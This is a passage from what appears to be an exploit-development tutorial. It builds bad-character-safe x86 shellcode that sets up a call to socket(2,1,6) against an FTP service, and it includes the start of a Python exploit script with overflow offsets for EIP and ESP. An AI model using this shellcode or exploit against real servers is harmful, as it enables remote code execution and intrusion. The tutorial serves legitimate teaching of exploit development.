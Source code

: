 ``` txt
SUB ESP, 0x7C         ; Move the stack pointer somewhere safe
```

We subtract `0x7C` bytes because:

1. Anything more than `0x7F` results in an instruction that is 6 bytes. Also, each byte needs to be a non-bad char, which means that `ESP` would be adjusted too far away, resulting in other problems.
1. The largest stack-aligned value under `0x7F` is `0x7C`, and keeping the stack aligned for certain function calls is very important.

The stack now points to somewhere in the block of zeros that overwrote our original payload. This will prove to be handy later on when we need zeros pushed onto the stack.


Next we need to construct a call to a new socket. This means we need to locate and call `socket` with the right parameters. To create a socket that is able to work with streams over TCP, the call would need to look like this: `socket(2, 1, 6);`

Before we can do that we need to get the first of the functions that we're going to call into `EBX`, just as we discussed before:

``` txt
MOV EBX, 0x40343444   ; Set EBX to a mostly correct address
SHR EBX, 0x8          ; Shift EBX right by a byte to correct the address
```

We now need to push the three magic values onto the stack in the reverse order (bear in mind that `EAX` is `0` at this point):

``` txt
MOV AL, 6             ; Set EAX to 6
PUSH EAX
MOV AL, 1             ; Set EAX to 1
PUSH EAX
INC EAX               ; Set EAX to 2
PUSH EAX
```

With the stack parameters ready to go, we can simply call the socket function and we should see a result appear in `EAX` which indicates a valid socket handle. Let's take a look at our exploit up until this point:

``` python
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}
```